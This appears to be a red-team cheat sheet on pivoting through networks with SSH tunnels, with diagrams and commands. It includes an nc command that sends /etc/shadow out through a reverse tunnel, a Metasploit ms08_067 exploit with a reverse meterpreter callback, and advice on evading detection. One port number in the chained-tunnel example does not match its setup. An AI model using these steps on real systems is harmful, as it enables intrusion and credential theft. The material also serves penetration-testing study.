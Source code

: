 ```yaml
---
title: SSH
---
```


## Philosophy
SSH can not only provide remote access to a system but can be leveraged to provide access to subnets not reachable
from the outside. A common scenario would be a firewall exemption allowing a technician to SSH into a DMZ server.
If we can gain access to this system, we could leverage this to pivot further into the network. These overall techniques
can be very helpful for red teams wishing to minimize their connection footprint in order to evade detection. With some
of the more advanced techniques, one could leverage a single tcp connection through a firewall and yet still be conducting
various operations all of which are protected by the encrypted SSH tunnel.

## Basic connection
The default port option (-p 22) is implied and can therefore be omitted unless requiring a different port number

operator: >RHP------->22 TARGET1
```bash
op@operator# ssh -p 22 user1@target1
```

## Forward Tunnel with Local Listener
This scenario starts a listening port on the origin machine which will forward packets to target2. With this example
we can SSH into target2 through target1 with the following syntax. This is a great example of pivoting deeper into a network.

operator: >RHP------->22 TARGET1

operator: >2000----------TARGET1---------->22 TARGET2
```bash
op@operator# ssh -L 2000:target2:22 user1@target1
op@operator# ssh -p 2000 user2@127.0.0.1
```
- `2000` local port
- `22` remote port

## Reverse Tunnel with Remote Listener
A slightly tricky concept that becomes powerful once understood. Assume a scenario that target1 is accessible to us,
yet sits behind a firewall that blocks all other inbound traffic. We could leverage this command to exfil data through
our SSH tunnel by starting a listener within the network on target1. This can be paired with scp or ncat to "pull"
data through the tunnel back to our attacker box.

operator: >RHP------->22 TARGET1

operator: 9000<----------TARGET1--<3000
```bash
op@operator# ssh -R 3000:127.0.0.1:9000 user1@target1
op@operator# nc -nvlp 9000 > exfil_data
user1@target1# nc 127.0.0.1 3000 < /etc/shadow
```
- `127.0.0.1` host to be forwarded to (in this case our loopback addr on the attacker box)
- `3000` remote port
- `9000` local port (potentially our ncat listener for exfil)

## Fork Tunnel
Two forward tunnels with a local listener over a single TCP connection to `target1`
This takes further advantage of SSH's ability to create multiple channels and multiplex tcp streams through a
single socket connection. This can be used to avoid blue team detection by ensuring we limit the amount of
concurrent outbound connections.

operator: >RHP--------->22 TARGET1

operator: >2000------------TARGET1------>22 TARGET2

operator: >2001------------TARGET1------>80 TARGET3
```bash
op@operator# ssh -L 2000:target2:22 -L 2001:target3:80 user1@target1
op@operator# ssh -p 2000 user2@127.0.0.1
op@operator# curl http://127.0.0.1:2001/target3_webpage
```
- `2000` local port for connection 1
- `22` remote port for connection 1
- `2001` local port for connection 2
- `80` remote port for connection 2

## Bidirectional Tunnel with Exploit
Forward & Reverse Tunnels with Local & Reverse Listeners utilizing a single TCP connection to TARGET1
This further emphasizes the fact that we can create multiple channels as well as mix-and-match the direction of our tunnels.
This particular scenario could be useful for throwing an MSF exploit through the tunnel and catch the provided callback on
our reverse listener. Note that since we are leveraging an SSH tunnel for pivoting and not an existing meterpreter session,
we need to start our own meterpreter listener and set DisablePayloadHandler to true. This is due to the fact that we need to
tell the meterpreter callback to target1's IP and msf will attempt to bind to $(target1_IP):3000 which will fail.

operator: >RHP------------>22 TARGET1

operator: >2000---------------TARGET1-------->445 TARGET2

operator: <8080---------------TARGET1<3000--------TARGET2
```bash
op@operator# ssh -L 2000:target2:445 -R 3000:127.0.0.1:8080 user@target1
msf> use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LPORT 8080
msf exploit(multi/handler) > set LHOST 127.0.0.1
msf exploit(multi/handler) > run -j
msf> use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067) > set RHOST 127.0.0.1
msf exploit(ms08_067) > set RPORT 2000
msf exploit(ms08_067) > set payload windows/meterpreter/reverse_tcp
msf exploit(ms08_067) > set LHOST $(target1_IP)
msf exploit(ms08_067) > set LPORT 3000
msf exploit(ms08_067) > set DisablePayloadHandler true
msf exploit(ms08_067) > exploit
```
- `2000` local port for forward listener
- `3000` remote port for reverse tunnel

## Tunnelception
SSH tunnel to `target3` through a tunnel to `target2` through a tunnel to `target1`
A further abstracted concept to show that we are not limited by how deep we can penetrate and pivot through various
machines. We are limited only by network reachability, ACLs, and SSH credentials.

operator: >RHP----->22 TARGET1

operator: >2000--------TARGET1------>22 TARGET2

operator: >2001--------TARGET1----------TARGET2------->TARGET3
```bash
op@operator# ssh -L 2000:target2:22 user1@target1
op@operator# ssh -L 2001:target3:22 -p2000 user2@127.0.0.1
op@operator# ssh -p 2201 user3@127.0.0.1
```
- `2000` local port for `target2` connection
- `2001` local port for `target3` connection

## Add Session Tunnel
Add a Forward Tunnel in an active SSH session `target1` in order to leverage the single socket connection for multiple channels
```bash
# must be a fresh new line so hit enter and try again if you don't drop into menu
op@operator# ~C
ssh> -L 2000:target2:22
```
- `2000` local port

## Gotcha's
Of particular note is leveraging reverse tunnels. By default, SSH on linux will start the listener on 127.0.0.1 and will not be
reachable on the LAN. Either /etc/ssh/sshd_config needs to have GATEWAYPORTS enabled or use the switch -gR to try to force a
global listener. If all else fails, an SSH tunnel loop trick can be used to expose the port using the following syntax. Note that
the second command is executed on target1 (assuming an IP address of 192.168.1.1).
```bash
op@operator# ssh -R 3000:127.0.0.1:22 user1@target1
user1@target1# ssh -L 192.168.1.1:3000:127.0.0.1:3000 user1@target1
```

Another gotcha is the fact that the tunnel will only exist as long as the terminal or ssh session is still running. You can either use
multiple tabs/windows for each hop or use the same window as you further dig into a network. However, if you would like to background
a tunnel session and make it a little more persistent, then you can leverage the fork and "Do not execute a remote command" switches.
```bash
op@operator# ssh -NfL 2000:target2:22 user1@target1
```

Lastly, it is important to be congnizant of the fact that 1-1024 privileged ports will require root permissions to start a listener.
This is easy to forget when one is trying to start a remote listener and you don't see the stderr message saying that it failed to
bind to that port.
